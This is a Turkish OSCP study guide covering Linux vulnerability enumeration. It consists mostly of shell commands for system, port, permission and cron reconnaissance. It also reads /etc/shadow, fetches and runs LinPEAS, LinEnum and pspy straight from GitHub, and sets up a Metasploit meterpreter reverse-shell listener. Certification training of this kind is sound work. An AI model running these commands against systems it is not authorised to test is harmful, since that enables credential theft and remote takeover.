 # OSCP Linux Zafiyet Analizi Rehberi

Bu rehber, OSCP sınavında Linux standalone makinelerde zafiyet analizi safhasında izlenecek adımları detaylı bir şekilde ele alır. Her adım için kullanılacak komutlar ve araçlar verilmiştir.

## 1. **İşletim Sistemi ve Kernel Zafiyetleri**

### 1.1 İşletim Sistemi Bilgileri
```bash
uname -a
cat /etc/os-release
cat /proc/version
```

### 1.2 Kernel Zafiyetlerini Kontrol Etme
```bash
uname -r
searchsploit $(uname -r)
```

### 1.3 Güvenlik Mekanizmaları
```bash
cat /proc/sys/kernel/randomize_va_space
sestatus # SELinux durumu
```

---

## 2. **Açık Portlar ve Servislerin Zafiyet Analizi**

### 2.1 Açık Portları Kontrol Etme
```bash
netstat -tulnp
ss -tulnp
lsof -i
```

### 2.2 Servislerin Versiyonunu Kontrol Etme
```bash
service --status-all
systemctl list-units --type=service
```

### 2.3 Servislerin Zafiyetlerini Araştırma
```bash
nmap -sV -p- TARGET_IP
searchsploit SERVICE_NAME SERVICE_VERSION
```

---

## 3. **Dosya ve Dizin Zafiyetleri**

### 3.1 Dosya İzinleri
```bash
find / -type f -perm -4000 2>/dev/null # SUID dosyalar
find / -type f -perm -2000 2>/dev/null # SGID dosyalar
```

### 3.2 Dizin ve Konfigürasyon Dosyaları
```bash
find /etc -type f -name "*.conf" 2>/dev/null
cat /etc/passwd
cat /etc/shadow # Yetki varsa
```

---

## 4. **Kullanıcı ve Grup Zafiyetleri**

### 4.1 Kullanıcı Yetkileri
```bash
id
whoami
cat /etc/passwd
cat /etc/group
```

### 4.2 Şifre Politikaları
```bash
cat /etc/login.defs
cat /etc/pam.d/common-password
```

### 4.3 Aktif Kullanıcıların Analizi
```bash
who
w
last
```

---

## 5. **Cron Zafiyetleri**

### 5.1 Cron İşlerini Bulma
```bash
crontab -l
ls -la /etc/cron*
cat /etc/cron.d/*
cat /var/spool/cron/crontabs/*
```

### 5.2 Cron Dosyalarında Yetki Kontrolü
```bash
find /etc/cron* -type f -perm -o+w 2>/dev/null
find /var/spool/cron -type f -perm -o+w 2>/dev/null
```

---

## 6. **Zafiyet Analiz Araçları**

### 6.1 LinPEAS
```bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

### 6.2 LinEnum
```bash
wget https://github.com/rebootuser/LinEnum/raw/master/LinEnum.sh
chmod +x LinEnum.sh
./LinEnum.sh
```

### 6.3 pspy
```bash
wget https://github.com/DominicBreuker/pspy/releases/latest/download/pspy64
chmod +x pspy64
./pspy64
```

### 6.4 Nessus ve OpenVAS
- Nessus veya OpenVAS gibi araçlar ile hedef sistem üzerinde zafiyet taraması yapılabilir.

---

## 7. **Zafiyet İstismarına Hazırlık**

### 7.1 Exploitleri Araştırma
```bash
searchsploit SOFTWARE_NAME SOFTWARE_VERSION
exploit-db.com üzerinde manuel arama yapabilirsiniz.
```

### 7.2 Metasploit Kullanımı
```bash
msfconsole
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set LHOST YOUR_IP
set LPORT YOUR_PORT
exploit
```

Bu rehberde verilen adımlar ve araçlar, Linux zafiyet analizi aşamasında kapsamlı bir süreç sunmaktadır. Her adımdan sonra elde edilen bilgiler doğrultusunda istismar yollarını değerlendirin.
